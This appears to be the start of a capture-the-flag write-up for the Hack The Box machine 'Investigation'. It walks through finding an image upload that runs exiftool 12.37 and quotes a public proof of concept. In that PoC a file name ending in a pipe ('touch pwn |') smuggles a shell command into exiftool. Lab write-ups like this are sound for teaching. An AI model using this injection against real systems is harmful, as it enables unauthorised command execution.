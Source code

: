 - Add the box name to `/etc/hosts`

```bash
echo "10.10.11.197	investigation.htb" | sudo tee -a /etc/hosts
```

- After initial enumeration you will find that there is a web-server preset on port `80`.
- You will be brought to a new endpoint `eforenzics.htb`

- Change `/etc/hosts` to reflect this endpoint.

```bash
cat /etc/hosts | tail -1

10.10.11.197	eforenzics.htb
```

- On the initial page you will find:

![image](https://0xc0rvu5.github.io/docs/assets/images/20230203022112.png)

- Click `Go!`
- We will find a file upload functionality

![image](https://0xc0rvu5.github.io/docs/assets/images/20230203022157.png)

- It will only accept `jpeg` or `png` files from the error output.
- After uploading an image you will see:

![image](https://0xc0rvu5.github.io/docs/assets/images/20230203022328.png)

- Click `here`
- You will see some `exiftool` output.
- Note the version `12.37`

![image](https://0xc0rvu5.github.io/docs/assets/images/20230203022408.png)

- GoogleFu:
	- `exiftool 12.37 exploit`

- Find:
	- `https://gist.github.com/ert-plus/1414276e4cb5d56dd431c2f0429e4429`
	- Within you will for a `PoC`

```bash
$ ls pwn
ls: cannot access 'pwn': No such file or directory
$ touch 'touch pwn |'
$ ./exiftool 'touch pwn |'
ExifTool Version Number         : 12.37
File Name                       : touch pwn |
Directory                       : .
File Size                       : 0 bytes
File Modification Date/Time     : 2022:01:18 18:40:18-06:00
File Access Date/Time           : 2022:01:18 18:40:18-06:00
File Inode Change Date/Time     : 2022:01:18 18:40:18-06:00
File Permissions                : prw-------
Error                           : File is empty
$ ls pwn
pwn
```

